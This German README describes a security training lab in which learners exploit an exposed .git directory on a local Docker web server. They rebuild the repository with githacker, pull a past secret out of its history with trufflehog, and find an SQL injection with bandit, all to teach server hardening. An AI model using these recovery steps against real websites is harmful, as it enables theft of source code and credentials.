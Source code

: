 # 01 Git Hacking mit `.git` Ordner

- [01 Git Hacking mit `.git` Ordner](#01-git-hacking-mit-git-ordner)
  - [Durchführung](#durchführung)
    - [1. Zugriff auf die Beispiel-Webseite](#1-zugriff-auf-die-beispiel-webseite)
    - [2. Zugriff auf das Config-Verzeichnis testen](#2-zugriff-auf-das-config-verzeichnis-testen)
    - [3. Zugriff auf das `.git`-Verzeichnis prüfen](#3-zugriff-auf-das-git-verzeichnis-prüfen)
    - [4. Repository mit Githacker rekonstruieren](#4-repository-mit-githacker-rekonstruieren)
    - [5. Analyse der wiederhergestellten Daten](#5-analyse-der-wiederhergestellten-daten)
    - [6. Suche nach Secrets mit Truffle Hog](#6-suche-nach-secrets-mit-truffle-hog)
    - [7. Code-Analyse mit Bandit](#7-code-analyse-mit-bandit)
    - [Abschluss](#abschluss)
  - [Lokale Umgebung bauen](#lokale-umgebung-bauen)
    - [1. Klone das Repository](#1-klone-das-repository)
    - [2. Baue den Container](#2-baue-den-container)
    - [3. Starten des Containers](#3-starten-des-containers)
    - [Existierenden Container verwenden](#existierenden-container-verwenden)
    - [Container löschen/zurücksetzen](#container-löschenzurücksetzen)

In diesem Lab bekommst du einen Beispiel-Webserver, der eine Hauptseite ausliefert und den Zugriff aufs `config`-Verzeichnis blockiert. Das simuliert einen Webserver, der Quellcode und andere Dateien vor direktem Zugriff schützt. Ein kritischer Fehler ist aber, dass das `.git`-Verzeichnis beim Setup nicht entfernt oder geschützt wurde. Dadurch kann das komplette Repository rekonstruiert werden. Ziel des Labs ist es, diese Schwachstelle auszunutzen, das Repository mit dem Tool `githacker` wiederherzustellen, nach Secrets zu suchen und den Quellcode auf Schwachstellen zu checken.

## Durchführung

Die folgenden Schritte gehen davon aus, dass du dich in der Laborumgebung befindest (bereitgestellte Umgebung oder lokal ausgeführter Container).

### 1. Zugriff auf die Beispiel-Webseite

```bash
curl http://localhost:8000
```

Die Startseite wird angezeigt und informiert dich, dass Dateien im `config`-Verzeichnis nicht zugänglich sind.

### 2. Zugriff auf das Config-Verzeichnis testen

```bash
curl http://localhost:8000/config
```

Der Zugriff wird verweigert – der Webserver blockiert das Verzeichnis wie erwartet.

### 3. Zugriff auf das `.git`-Verzeichnis prüfen

```bash
curl http://localhost:8000/.git/config
```

Die Ausgabe zeigt die Git-Konfiguration – das `.git`-Verzeichnis ist zugänglich!

### 4. Repository mit Githacker rekonstruieren

```bash
githacker --url http://localhost:8000 --output-folder git-hack
```

Das Tool lädt alle relevanten Dateien aus dem `.git`-Verzeichnis und stellt das Repository im Ordner `git-hack` wieder her.

> [!NOTE]
> `githacker` zeigt unter den Log-Meldungen auch einige Errors – das ist nicht schlimm.
> Die treten zum Beispiel auf, weil `githacker` versucht, Branch-Namen und ähnliche Dinge zu erraten.

### 5. Analyse der wiederhergestellten Daten

```bash
cd git-hack
# Name des Unterordners herausfinden
ls
cd <unterordner>
ls -la
git log
```

Das Repository ist komplett wiederhergestellt, inklusive Commit-Historie und Quellcode.

```bash
batcat *
batcat config/*
```

Mit `batcat` kannst du Quellcode und Konfigurationsdateien anschauen. Es sind keine sensiblen Daten im Klartext auffindbar.

> [!NOTE]
> `batcat` ist eine schickere Version von `cat`. Z.B. zeigt es die Dateien mit Syntax-Highlighting im Terminal an. Du kannst natürlich auch jedes andere Tool verwenden.

### 6. Suche nach Secrets mit Truffle Hog

```bash
trufflehog git file://.
```

Truffle Hog durchsucht die komplette Git-Historie nach Secrets. Es wird ein Secret gefunden, das in einem früheren Commit stand, aber nicht mehr im aktuellen Code ist.

> [!WARNING]
> Secrets, die einmal im Git-Verlauf landen, sind nie wirklich gelöscht! Nur ein "force push" kann Commits entfernen, was aber meist auf geschützten Branches nicht erlaubt ist und mit Vorsicht genutzt werden sollte. Das Entfernen von versehentlich eingecheckten Secrets ist daher schwierig.

### 7. Code-Analyse mit Bandit

```bash
# Lässt `bandit` rekursiv alle Dateien nach Problemen untersuchen
bandit -r .
```

Bandit analysiert den Python-Code und findet eine offensichtliche SQL-Injection-Schwachstelle, die durch unsichere String-Konkatenation entsteht.

> [!INFO]
> Hier können in der Praxis natürlich beliebige andere Analysen folgen, z.B. Suche nach "versteckten" Endpunkten.
> Denke selbst kurz darüber nach, welche Möglichkeiten es für einen Angreifer eröffnet, den Quellcode zur Verfügung zu haben.
> Zwar ist **Security by Obscurity** keine gute Strategie, doch den Quellcode zu kennen ermöglicht einem Angreifer sehr viel effektivere Suche
> nach Angriffsmöglichkeiten, wenn es die Ergebnisse nicht schon direkt mitliefert (z.B. Klartext-Secrets). Daher sollte Quellcode gut geschützt werden.

### Abschluss

In diesem Lab hast du gesehen, wie ein offenes `.git`-Verzeichnis genutzt werden kann, um ein komplettes Repository samt Historie wiederherzustellen.
Mit den Tools konntest du Secrets aus der Historie extrahieren und Schwachstellen im Quellcode finden.
Das zeigt, wie wichtig ein sauberes Server-Setup und der Schutz sensibler Verzeichnisse ist – auch präventiv, falls doch mal ein `.git`-Ordner ins Deployment gerät (Security in Depth).

## Lokale Umgebung bauen

Du kannst das Lab mit Docker selbst ausprobieren.
Voraussetzung ist eine Installation von `docker` ([Installation](https://docs.docker.com/engine/install/)).

### 1. Klone das Repository

```bash
git clone https://github.com/V0idC0de/security-by-design.git
```

### 2. Baue den Container

> [!WARNING]
> Stell sicher, dass du dich im Verzeichnis `labs/01-git-hacking` im Repository befindest,
> bevor du `docker build` ausführst! Für alle anderen `docker`-Befehle ist das Verzeichnis egal.

```bash
# Überspringe dieses Kommando, falls du schon in diesem Unterordner bist
cd security-by-design/labs/01-git-hacking
```

```bash
docker build -t labs/01-git-hacking .
```

### 3. Starten des Containers

```bash
docker run -it --name git-hacking --hostname git-hacking labs/01-git-hacking
```

> [!NOTE]
> `docker run` öffnet eine Shell im Container, die du fürs Lab nutzen kannst.
> Wenn du das Terminal schließt oder die Shell mit `CTRL + D`, `exit` o.Ä. verlässt, stoppt der Container.
> Er wird aber nicht gelöscht und kann weiterverwendet werden (siehe [Existierenden Container verwenden](#existierenden-container-verwenden)).

### Existierenden Container verwenden

Um einen bestehenden, gestoppten Container nochmal zu betreten:

```bash
docker start -ai git-hacking
```

### Container löschen/zurücksetzen

Falls schon ein Container mit diesem Namen existiert, kannst du ihn vorher entfernen.
Das ist praktisch, wenn du das Lab neu starten willst.

```bash
docker rm -f git-hacking
```

Nach dem zweiten Befehl bist du direkt in einer Shell im Container und kannst alle Übungen machen.
